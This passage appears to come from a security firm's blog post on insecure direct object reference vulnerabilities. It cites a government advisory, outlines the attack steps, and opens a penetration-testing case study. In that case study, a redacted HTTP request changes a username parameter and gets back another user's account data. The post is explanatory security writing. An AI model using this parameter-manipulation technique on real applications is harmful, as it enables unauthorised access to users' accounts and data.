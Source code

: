 Last month, July 2023, the Australian Signals Directorate’s Australian Cyber Security Centre (ACSC), U.S. Cybersecurity and Infrastructure Security Agency (CISA), and U.S. National Security Agency (NSA) released a joint Cybersecurity Advisory to warn vendors, designers, and developers of web applications and organisations about insecure direct object reference (IDOR) vulnerabilities. Check out the advisory [here](https://media.defense.gov/2023/Jul/27/2003269443/-1/-1/0/JOINT-CSA-PREVENTING-WEB-APPLICATION-ACCESS-CONTROL-ABUSE.PDF}).

## The Landscape of IDOR Attack

To understand how an IDOR attack works, let's break it down step by step:

1. **Identifying the Vulnerability**: A malicious actor must first identify the presence of an IDOR vulnerability within a target application. This typically involves analysing the application's behaviour and endpoints to discern potential weak points.
2. **Manipulating Input Parameters**: Once a potential vulnerability is identified, the threat actor will manipulate input parameters, such as object identifiers, to access restricted data or perform unauthorised actions. This manipulation can involve altering URLs, request parameters, or API endpoints.
3. **Gaining Unauthorised Access**: With successful parameter manipulation, the attacker can access sensitive data or perform actions that they shouldn't have permission to do. For example, they might access another user's private files or modify critical database records.

Now, let's delve into a few real-world case studies that we've encountered during our routine application penetration testing assessments.

![IDORx](https://github.com/CognisysGroup/cognisysgroup.github.io/assets/25560539/c9859b60-7c11-4d67-bd34-b3126ec8db86)


## Case Study 1:  Leaking Password Reset Token?

In this case study, we will explore a scenario where a critical Insecure Direct Object Reference (IDOR) vulnerability allowed us to access sensitive information including password reset tokens using a simple manipulation of usernames. This vulnerability led to unauthorised account takeover, jeopardising user accounts and their associated data.

**Request:**
```http
GET /cases-api/getUserByUsername?username=AdminUser HTTP/2  
Host: <REDACTED> 
Cookie: <REDACTED>  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36  
Accept: application/json, text/plain, */*  
X-Requested-With: XMLHttpRequest  
Referer: https://<REDACTED>/cases/create  
Accept-Encoding: gzip, deflate  
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
```

**Response:**
```http
HTTP/2 200 OK  
Date: Wed, 07 Jun 2023 12:51:27 GMT  
Content-Type: text/html; charset=UTF-8  
Cache-Control: no-store, private  
X-Frame-Options: SAMEORIGIN  
X-Content-Type-Options: nosniff  
Strict-Transport-Security: max-age=15724800; includeSubDomains  
  
{  
  "id": 36,  
  "username": "AdminUser",  
  "login_attempts": 0,  
  "company": "CognisysTest",  
  "organisation_id": 12,  
  "licence_id": null,  
```